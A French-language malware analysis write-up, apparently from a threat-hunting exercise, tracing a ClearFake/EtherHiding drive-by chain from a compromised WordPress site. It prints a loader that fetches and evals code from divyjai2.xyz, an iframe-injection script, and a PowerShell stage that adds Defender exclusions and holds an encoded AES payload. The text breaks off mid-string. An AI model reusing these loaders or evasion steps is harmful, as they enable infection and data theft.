






# WriteUp

[Search - urlscan.io](https://urlscan.io/search/#www.r2kslaw.com)




1. Identifier le nom du script JS déposé sur le site compromis permettant le déclenchement du first stage de la killchain | Identifier le nom de la technique permettant le déclenchement du first stage de la killchain


[CLEARFAKE is the term used to describe the malicious in-browser JavaScript framework deployed on compromised webpages as part of drive-by compromise campaigns to deliver information stealers. It has the potential to impact all sectors. Read More.](https://www.kroll.com/en/insights/publications/cyber/clearfake-update-tricks-victim-executing-malicious-powershell-code)

[“EtherHiding” — Hiding Web2 Malicious Code in Web3 Smart Contracts](https://labs.guard.io/etherhiding-hiding-web2-malicious-code-in-web3-smart-contracts-65ea78efad16)

1. Identifier les deux borne min et max definissant le temps d’inactivité du script téléchargeant le dernier stage


[urlscan.io](https://urlscan.io/responses/e7bcde403dc4e0e02fdaf8617eaf356261b66c7b68d6a3a63176e723da13c918/)

```jsx
{"jsonrpc":"2.0","id":44,"result":"0x00000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000ae85a6e56755933527062323467587a42344e6a566d4e69677065324e76626e4e3049463877654445354e7a686b4e6a31624a7a557a4d7a41354e58566e5a6d4e73517963734a334a6c63334276626e4e6c5647556e4c4363784e6a45344d546c5a516c4a695331496e4c4363784e58527251575272575363734a334e6c626d516e4c43646b5a47566b505363734a7a49774e6a67344f445278596b52776148496e4c4363334e5445784d54425a596c4e766446516e4c4363764f45393059554a794c7a39684a79776e4e7a417a4e54517754576845553370514a79776e4e45645764465234555363734a3268306448427a4f6938765a476b6e4c4363314f5463774e7a426953486c465932676e4c4363794d6c64566455356e525363734a795a3061484a6c595751394a79776e646e6c7159576b794c6e6835656963734a306446564363734a7a45794e7a63354f44593461555a48576c64694a79776e6233426c626963734a334a51655746304a79776e61314a706448496e4c4363784f455a5764316843637963734a7a49305955467661315a474a313037587a42344e6a566d4e6a316d6457356a64476c766269677065334a6c64485679626942664d4867784f5463345a445937665474795a585231636d3467587a42344e6a566d4e6967704f33316d6457356a64476c76626942664d4867304e6d49784b463877654445775a47557a5a4378664d486778597a6c6b4d6a677065324e76626e4e30494638776544673059544d79597a31664d4867324e5759324b436b37636d563064584a754946387765445132596a45395a6e5675593352706232346f587a42344d7a646b4f4459774c463877654456685a6d466b59536c37587a42344d7a646b4f4459775056387765444d335a4467324d43306f4d4867784d7a52694b7a42345a6d52684b6a42344d5373744d4867794d5751334b5474735a585167587a42344d5449775a574977505638776544673059544d79593174664d48677a4e3251344e6a42644f334a6c64485679626942664d4867784d6a426c596a4137665378664d4867304e6d49784b463877654445775a47557a5a4378664d486778597a6c6b4d6a67704f33306f5a6e5675593352706232346f587a42344e474a694d6a6c6a4c463877654445314f44426a5a536c375932397563335167587a42344e545577595445775056387765445132596a4573587a42344d5446694f446b795056387765445269596a4935597967704f33646f6157786c4b43456857313070653352796558746a6232357a644342664d4867304e7a646b5a5441394c584268636e4e6c535735304b463877654455314d4745784d4367776544453159796b704c79677765474d714d4867784f4745724d4867795a696f744d4867314f5373744d4867794d6a41714d4867784b53747759584a7a5a556c75644368664d4867314e5442684d54416f4d4867784e4759704b53386f4c5442344d5442684d797377654446684d4449724c5442344f54566b4b536f6f4c584268636e4e6c535735304b463877654455314d4745784d436777654445324d796b704c7967744d4867784b6930776544466b5a6d45724c5442344f536f744d4867794f5373744d4867785a6a59344b536b72634746796332564a626e516f587a42344e545577595445774b4442344d54526c4b536b764b4442344d5463714d4867784e3259724d4867324e796f744d4867784d5373744d486778596a686c4b536f6f4c584268636e4e6c535735304b463877654455314d4745784d436777654445315a696b704c796777654445714c5442345a6d55354b793077654445714d486778597a686b4b7a42344d6d4d3359696b704b79317759584a7a5a556c75644368664d4867314e5442684d54416f4d4867784e6a49704b53386f4d4867784b69307765444a6a596973744d4867794b6a42344d6d49354b7a42344f44517a4b537374634746796332564a626e516f587a42344e545577595445774b4442344d54566c4b536b764b4442344d544531595373776544457a4e6d45724d4867324d796f744d4867315a696b714b484268636e4e6c535735304b463877654455314d4745784d4367776544453159696b704c796777654445714d4867784d5749724c5442345a5751314b693077654445724c5442345a6d55344b536b724c584268636e4e6c535735304b463877654455314d4745784d4367776544453159536b704c7967776544453259537377654445314e7a49724c5442344d545a6b4d796b714b43317759584a7a5a556c75644368664d4867314e5442684d54416f4d4867784e5445704b53386f4c5442344d5756684e437377654749315a437377654445334b6a42345a4463704b53747759584a7a5a556c75644368664d4867314e5442684d54416f4d4867784e5449704b53386f4d4867785a5751304b793077654445714d4867784d5442684b793077654752695a696b714b484268636e4e6c535735304b463877654455314d4745784d436777654445314e696b704c796777654445714d4867794d3245314b7a4234593246694b793077654445344d6a49714d4867794b536b376157596f587a42344e4463335a47557750543039587a42344d5455344d474e6c4b574a795a5746724f32567363325567587a42344d5446694f446b795779647764584e6f4a31306f587a42344d5446694f446b795779647a61476c6d644364644b436b704f33316a5958526a614368664d4867784d7a517a4e4451706531387765444578596a67354d6c736e6348567a614364644b46387765444578596a67354d6c736e633268705a6e516e585367704b5474396658306f587a42344e6a566d4e6977744d48677a4e7a41794b693077654449324b7a42344d536f744d4867314d545a684e7973776547466d4b6a42344d546c6a4b53776f587a42344d6a5133596a4a6a4c463877654452694d4441305a6a306e6433416e4b54302b65324e76626e4e3049463877654451315957497a4e4431664d4867304e6d49784c463877654452684f546869596a31374a334a51655746304a7a70664d4867304e5746694d7a516f4d4867784e5455704c436472556d6c30636963365a6e5675593352706232346f587a4234596a4d775a4445314c463877654449324e6a59334d436c37636d563064584a75494638776547497a4d4751784e5368664d4867794e6a59324e7a41704f3331394f3374735a585167587a42344d6a4269596d526c5057356c647942595455784964485277556d56786457567a644367704f334a6c64485679626942664d4867794d474a695a475662587a42344e445668596a4d304b4442344d5455334b56306f587a42344e4745354f474a6957313877654451315957497a4e436777654445314f436c644c463877654451315957497a4e436777654445314d436b72587a42344e445668596a4d304b4442344d5455304b5374664d4867304e5746694d7a516f4d4867784e6a51704b313877654451315957497a4e436777654445324d536b72587a42344d6a5133596a4a6a4b313877654451315957497a4e436777654445314d796b72587a42344e4749774d44526d4c43456f4c5442344f536f7765444533596973744d4867784e5455714c5442344d6973744d48686d4b693077654749324b536b73587a42344d6a4269596d526c57313877654451315957497a4e436777654445324d436c644b473531624777704c463877654452684f546869596c74664d4867304e5746694d7a516f4d4867784e546b705853686c646d46734c46387765444977596d4a6b5a5674664d4867304e5746694d7a516f4d4867784e5751704b796434644364644b54743966536b37000000000000000000000000000000000000000000000000"}
```




[JavaScript Deobfuscator](https://deobfuscate.relative.im/)


```jsx
;(_0x247b2c, _0x4b004f = 'wp') => {  {    let _0x20bbde = new XMLHttpRequest()    return (      _0x20bbde.open(        'GET',        'https://divyjai2.xyz/8OtaBr/?added=' +          _0x247b2c +          '&thread=' +          _0x4b004f,        false      ),      _0x20bbde.send(null),      eval(_0x20bbde.responseText)    )  }}

```

[Search - urlscan.io](https://urlscan.io/search/#divyjai2.xyz)


[divyjai2.xyz - urlscan.io](https://urlscan.io/result/49a8349d-4d2d-4d89-9935-8f8d4021c056/)


[urlscan.io](https://urlscan.io/responses/b796020431f1151e367c089bb60b1b4c86fb97470a6522980320eba5b74573c2/)



```jsx
const url = 'https://divyjai2.xyz/bvxny6R6';
let iframe = document.createElement('iframe');
const remove_iframe = e => {
	'removetheiframe' == e.data && (iframe.parentNode.removeChild(iframe), document.body.removeAttribute('style'));
};
window.addEventListener('message', remove_iframe, !1);
const iframe_ready = e => {
		window.scrollTo(0, 0), iframe.style.display = 'block', iframe.style['margin-top'] = '', document.body.style.padding = '0', document.body.style.margin = '0', document.body.style.height = '0px', document.body.style.overflow = 'hidden', window.scrollTo(0, 0);
	}, create_iframe = () => {
		iframe.onload = iframe_ready, iframe.src = url, iframe.style.width = '100%', iframe.style.height = '100%', iframe.style.display = 'none', iframe.style.position = 'absolute', iframe.style['z-index'] = '99999999999', iframe.scrolling = 'no', document.head.parentNode.insertBefore(iframe, document.head);
	};
create_iframe();
```

Les recherches via [urlscan.io](http://urlscan.io/) quand au contenu télécharger via l’url hxxps://divyjai2.xyz/bvxny6R6 ne donne rien. De ce faite nous allons chercher via [threatfox.abuse.ch](http://threatfox.abuse.ch/) :



On a par la même occasion la description d’une killchain similaire identifier par la personne qui à report le script.

A noter qu’au vu des informations donnée, on peut déduire que les différents site wordpress compromis distribue les même script de compromission

[Search - urlscan.io](https://urlscan.io/search/#downloaddining.rest)


[downloaddining.rest - urlscan.io](https://urlscan.io/result/8fa6c890-ac5f-4c91-97da-35b0135b7085/)


[](https://bazaar.abuse.ch/sample/ad2a0f3b8a431129a639b15d27bf21fc005a7bc2964a92af3c0505cbf0ec4c7d/)

```jsx
function SOMGA {
    $t = Get-WmiObject Win32_PerfFormattedData_Counters_ThermalZoneInformation -Namespace "root\CIMV2"
    if ($t -ne $null) {
        foreach ($i in $t) {
            $c = $i.Temperature / 10.0
            $f = ($c * 9 / 5) + 32
            return ("{0:F2} C : {1:F2} F" -f $c, $f)
        }
    } else {
        [Environment]::Exit(1)
    }
}

SOMGA;

Set-Clipboard -Value " "

Add-MpPreference -ExclusionPath "$env:USERPROFILE\AppData"
Add-MpPreference -ExclusionPath "C:\ProgramData"

function FxC {
    param (
        [string]$p
    )
    $x = Get-MpPreference | Select-Object -ExpandProperty ExclusionPath
    return $x -contains $p
}

$z1 = "$env:USERPROFILE\AppData"
$z2 = "C:\ProgramData"

do {
    Start-Sleep -Seconds 1
} until ((FxC -p $z1) -and (FxC -p $z2))

$x2fM3d = [ScriptBlock]::Create((('G'+'e'+'t') + '-' + ('D'+'a'+'t'+'e')))
$w9eR1a = ("ZgB1AG4AYwB0AGkAbwBuACAAQQB7AHAAYQByAGEAbQAoACQAeAApADsAJABiAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEIAeQB0AGUAWwBdACgAJAB4AC4ATABlAG4AZwB0AGgALwAyACkAOwBmAG8AcgAoACQAaQA9ADAAOwAkAGkALQBsAHQAJABiAC4ATABlAG4AZwB0AGgAOwAkAGkAKwArACkAewAkAGIAWwAkAGkAXQA9AFsAQwBvAG4AdgBlAHIAdABdADoAOgBUAG8AQgB5AHQAZQAoACQAeAAuAFMAdQBiAHMAdAByAGkAbgBnACgAJABpACoAMgAsADIAKQAsADEANgApAH0AOwAkAGIAfQAKAGYAdQBuAGMAdABpAG8AbgAgAEIAewBwAGEAcgBhAG0AKABbAFAAYQByAGEAbQBlAHQAZQByACgATQBhAG4AZABhAHQAbwByAHkAPQAkAHQAcgB1AGUAKQBdAFsAcwB0AHIAaQBuAGcAXQAkAGUALABbAFAAYQByAGEAbQBlAHQAZQByACgATQBhAG4AZABhAHQAbwByAHkAPQAkAHQAcgB1AGUAKQBdAFsAcwB0AHIAaQBuAGcAXQAkAGsALABbAFAAYQByAGEAbQBlAHQAZQByACgATQBhAG4AZABhAHQAbwByAHkAPQAkAHQAcgB1AGUAKQBdAFsAcwB0AHIAaQBuAGcAXQAkAHYAKQA7ACQAZAA9AE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBVAFQARgA4AEUAbgBjAG8AZABpAG4AZwA7ACQAYwA9AFsAQwBvAG4AdgBlAHIAdABdADoAOgBGAHIAbwBtAEIAYQBzAGUANgA0AFMAdAByAGkAbgBnACgAJABlACkAOwAkAGEAPQBOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBTAGUAYwB1AHIAaQB0AHkALgBDAHIAeQBwAHQAbwBnAHIAYQBwAGgAeQAuAEEAZQBzAE0AYQBuAGEAZwBlAGQAOwAkAGEALgBNAG8AZABlAD0AWwBTAHkAcwB0AGUAbQAuAFMAZQBjAHUAcgBpAHQAeQAuAEMAcgB5AHAAdABvAGcAcgBhAHAAaAB5AC4AQwBpAHAAaABlAHIATQBvAGQAZQBdADoAOgBDAEIAQwA7ACQAYQAuAFAAYQBkAGQAaQBuAGcAPQBbAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBQAGEAZABkAGkAbgBnAE0AbwBkAGUAXQA6ADoAUABLAEMAUwA3ADsAJABhAC4ASwBlAHkAUwBpAHoAZQA9ADEAMgA4ADsAJABhAC4AQgBsAG8AYwBrAFMAaQB6AGUAPQAxADIAOAA7ACQAYQAuAEsAZQB5AD0AJABkAC4ARwBlAHQAQgB5AHQAZQBzACgAJABrACkAOwAkAGEALgBJAFYAPQBBACAAJAB2ADsAJAB0AD0AJABhAC4AQwByAGUAYQB0AGUARABlAGMAcgB5AHAAdABvAHIAKAApADsAJABwAD0AJAB0AC4AVAByAGEAbgBzAGYAbwByAG0ARgBpAG4AYQBsAEIAbABvAGMAawAoACQAYwAsADAALAAkAGMALgBMAGUAbgBnAHQAaAApADsAJABkAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAHAAKQB9AAoAJABrAD0AWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AFMAdAByAGkAbgBnACgAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACIAUwBqAFYAUQBSAFcASQAyAFcARQBwAG0AYgBYAGwATABWAFgARgAyAE4AdwA9AD0AIgApACkACgAkAHYAPQBbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAUwB0AHIAaQBuAGcAKABbAFMAeQBzAHQAZQBtAC4AQwBvAG4AdgBlAHIAdABdADoAOgBGAHIAbwBtAEIAYQBzAGUANgA0AFMAdAByAGkAbgBnACgAIgBZAFcATQAwAE4AVABsAG0ATgBqAFEAeQBNAFQARgBtAFkAMgBRADQATgBUAEYAagBaAGoAQgBtAE4AVABkAGoATQBqAFEAegBNAEQARQB5AE4AegBBAD0AIgApACkACgAkAEUAPQAnAHIAVgB3AEwAZwB3AGkAdQBCAFoARwBVADUASABVAEkAWABaAEkAdgBlAHMAcQBCAGsATABjADgASABBAGsANABxAG8AKwBPAFAAagBYAG0AMABaAG0AeABJADMAUwBSAGcAZgBUAHIAWQBGAEkAWQA2AFEANABRAFkALwBNAFoARwB0AC8AaQBMADcATgBVAGMAYgBnAHcARQBBAFkAdQBvAE0AWQAxAHcARwA5AHQAVgBJADcAagArAEwASQAxADEAVABOAE4AegB3AFAATQBaAEgATAA3AE4AMgA2AGcAcAB2AGUAWAArAE8AWABtAGgAOQBNAG4AUQBNAGsAagA5ADUASAA0AFMAMQB5AHMAVgBOAG8ATQBnAEMAOABqAGgAbQA3AGIAKwAvADUAawB0ADkARgBQAGgASQBuAHEAYgBvAEsAcQBjAEwAQwA1AEcAeABUAEcAUABUAFIAWgBsAHMARgBmAEkAUgB1AEQAUABFADAANAAwAHIAMwBjAHQAUQBOAFQAYwAxAHMAUwBtAHYAawAyAHIAUABkAFIATQB2ADYAdwBJAEwAYgB0AHEATwBWAHIAcQBPAFMANwB1AHUAWgBRAG8ARgBhAGwARwBNAFUAcwBQAEMAWgBoAG4ASABkAFgARwA3AGoAUgBJAEMAeQBiAEsAcABLAHUATgBtAG0AUAAvAHoAaQBEAGEANABqAGQAcQA3AG0ATABHAEQAaAB3AHMAVABzAHMAdwB4AFkANABXADUAbgBOAG4AcgBjAHcASAAzAGUAdgBOAHkAVgA2AEYATABiAEkARABjAEsAeQBZAHgAWABOAEsAeQBxAEwAaABGAEsAYQBrAGkAZQBLAGwAOABWADgARgBkADEAMAArAHoAbwB2AHUANwBJACsASABRAHYASQA0AHcATABwAGsAcwBuADAASwBRAHYAcwBXAC8AMgBuAHcAagAzADcAZABLAFYAQwBsAFUARABJADgANwBBAFUAbgBQAGYASgBWAGYAdwBFAE8AYQBWAFYATQB5AFMALwBjAHoAQQBaAFkAMgBWADIAUgBBAEoAeAAwAGIAVwA4AFkAYgB5ADgAMwBKAGsAWQB0AFUAbwBvAHcAUgBaAGkAVgBnAEEAdQB1ADIASwAxADcAcwA1ADgAMgB2AHIAUwBHAGYAbgBaADgAcQB6AHUAaABLADMAeQBVAEUAZgBkAEUAZwA2AEoAcgBGAEgAdABMAC8ARwAzAEMALwBTAGgAWABBAC8AaABLAEMAQwAvAEEATwBwAG0ASABwAFoAbABZAGcATgAzAHcAZQBpAGcAbgBxADIAWABtADcAZABPAG8AdABmADcAYgBYADIAZABaAFkAUgBDAC8AMgB3AHEAdABFAC8ASwAvAHcAYgBqADkATwBNADMAawB5AG8AaAA4AEIATABwAHQAWQBzAG4AdgBFADMAQwB3AEYAZQBEAGoARwBhAGYAMwB4AEcAUwBqADEAQQBiADkAdgBkAFkATAB4AGoAaAA1AE4AOQByAEIAcgBKAHYAbABnAG0AZABlAGkAeQB2AHkAdABzADkASgBjAGEAWABPAFIAbQBsAE0ANQBwAFQAcwBSAGEAdQBxADYANQBSAHIAZAB3AFEAcwBKADUAYQAvAFEANgBlAGMAQwBiAFMAZABYAGMAdgA3AEoAUABpAGwAUgB2AGQAaAAzAEgARAByAG0ARgBTAEIAMAA0ADIAUgBZAG0AOABnAGIAcABzAEkAUABxAEkAaQAvAGUAeABLADEANgA0AEUAVABxAGsAZABuAFAASwBFAGgAMABEAC8AYgBDAGUAQwBKAGcAZQBuAGEAbgBuAEgARQBxAHIAOQA0AFUAZABkAG4AUwBsAHkAbABBADgAWQBpAEQASwBqADMAMgBoADAAcwBwAFUAegBLADYAKwAzADgAYgBXAHEARwBVAEkASgBDAGsAMAA5AFUAYwA3AFcAbQBoAEQATABUAG0ATABMAGMASwBGAGEAUAByAHIASwBGAGcATwBEADcAWQBoAC8ANQAzAEIANQBOAFAAdwA1AHYAWABmAEkASQBhAFAAYQBaADgAOQBHAHYAYgA1AEsANAAwAGYAagBrAGoANQBQAEsAOQBxAGUATAArACsARQBhAC8ASwBlADAAZABmAC8ARABWAGcAdQBJAGsAYgBzAEUAZABNAGsAcwAvAFMATgBHAEgAbABWAEMAQgAyAFgAdQBUAGQAeQBzADcASQBGAG4ATABEAEcARgB1AEQATQBuAHUAMQBvAHEAaQBaAGsATABNAEMATgAzADAATABwADAAMwB2AFoAbwB1AGwAbgBUAEEAeQA2AHMANgBWACsAQgAyAFEAeQBBAGwAMABGAGYARwBkAEMAVwBvAGQAeQBIAHoAeQB6AEsAUABiAEcAYwBGAGQAOQBXAEYAcQBJAGQAQwBxAEgAawBaAE4ANABUAHgARgB4AEMAMgBXADkAeABYAE0AeABQAGUAVABoAEUAdwBjAEcAOABzAFgATQB3AEQAOAA5AHoAMgBlADYAKwBNAGwATABRAFkAegAzADgAbQBnAHEASgBaAC8AQgBiAHcAagBVAEQATABYAE4AegBRAGsAbgBhAEgAcwA5AFEAdABuAFoARgBSAGEAbgBoAEsAMgBVAGUANQBYAFEAcwAzADIAZgBkAEMAVABZAG4AQwBFADMASwB3AEMAdQBIAGkAQwBmADcALwA5AGYAVABlAEkAYwBQADIAQQBLAFkATQB1AGYANQBNAFIAZgBMAG0ASgBFAE8ASQAvAFoARgBFADUAMQBlADcAZgByAFoATABPAHgAYgBnAGwAYQBMAGoATAB3ADcAUgBVAHcAMgB5ADMATABsAGYAMgBYAFQALwBDAHgAVgA0ADUAVQBJAGsATgA4AEkARwBXAEUAbQA2AG8ALwBIAGsAWQBZAFIAbABaAGoAWABJAGMAMwBlAEEARAB6AFMANgAxADUAdgBCAFcAKwBzADYATQBhAEEASwBtAHQAVQBZADIAMgBDAEIAQgA5AEkAUQBnAEMALwBzAEoAZQBkAGgAdQAwAHMATwAyAEIAdAB1AFcAdwBWAE8AcwBpADMAeABJAFUARAAvAGcAbgAwAGgANwB3AGcAUwBFAHEAcwB0AHAAdABGADMAWAB4AE0AaABPAFkAcQBHAHgAbQBOAHoAUgBWAHEAcQA3AGQAeABUADMAOABiAFIANAAvAHcAbAB0AGwAcABpAHAASgBmAEYATAB2AEQATwBMADMANwB2AEMANQBHAFoATwBuAEwARAArAEcAeABOAGwAUQA3AHcAbwBHACsAdAA2AFAASABjAHUAcQA5AE8AbgBBAHAATgBaAHoAcQBEAEQAaABVAFcAbwBhAFMAUQAvAHAAQgBDAHUAYgBnAFAAYQA3AHoAKwBOADUAYwBmAGEARgBJADMAUABpADQAeAA1AEUAKwBzAC8AUwBxAGoAcwB3AFoAawBlADUAaAB4AFAAawBWAGoAbAA4AG4AUABmAHIAbgA2AGUAcAByADgAVgBiAHgATQBqADMASQA5AHMAbgBVAG0AUwBuADkANQBxAG0AMgAzAFMAWQBFAFcAQgArAE4AawA4AFIAZABMAEQANABMAEQAZQB6ACsAagBSADgASABUAEYAagB3AFkAbABIAHEAZABSAEsAQQB0AEEAbwBWAFQAbwBMAEwAQwB2AFEAawBoAG8AMgBmAG8ARgBhAG0ANQBoADUAVQBkAHUAVgBwADkAawA4AG0AdQBYAHUAcQA1AGEAKwBhAHAAaQBTAHkAbwBiAGEAOAByAHYAMABuAGMAbgBuACsAaQArADAAWAB5AFUAcABHAG0AYQArAEgAYwBWADIAVwBRAHMAYQBvACsAdwBQADIASQBRAFoAeQBBADAASQBtAFIAdABHAE8AeQBjAHEAeABwADYASgBHAFMAOABmAEYAagAzAFcAcABPAEIAegB0ADEAaABvAEEAeAAwAFcAdwBZAHoAaABUAE4AdABpADAAbQBPAHAAWgB3AGkAYQBEADgAawBoAEsASwBiAFQAaABaAEEASwBQAFkAWgBFADcAOABaAHkASgB3AHcAcQBiAHkARQBWAFYANwA0AGsARABwAFUAcgBhAFQASQBmAGEANwA2AFgAUQB3AGwAVwBiAGkATQB5AEMAYgAyAGQAVgBNACsAbAA0ADQAUgBlAHAAVQBwAEEAYwBNADAAdAA0AFMARQB3ADgAZgBBAHgASABuAGwAUAB1AGMAawBsAE4AQQBwAHMARAAvAFoAQgB6ADIAbgBEAHQAawB4AGYAWgBSAGoAUgBvADgAaABCAEUAcwBDADcAeQA3ADIAWQBUAFIAWQBKAGYAWQBzAGMASQBXAHoAYQB5AHcANQBFADMANwBRAEsATQBBAHEAUQBhAHQAaAB1AGYAdgBmAHYARAB0AFMAWQAvAE0ARwA1AEEALwB6ADYAYQBlAEUAegB4ADMAZwA0AHQAZgBXAEIAdwAwAEsAcQA3AE0ATQBYAGMASABqADQAbQBvAEsAUQA3AFcAaABnAG0AVQBTAGQATQBSAHEAVwAzAGIARwBVAFMASQAzAGcAVwBhAEMASgBIA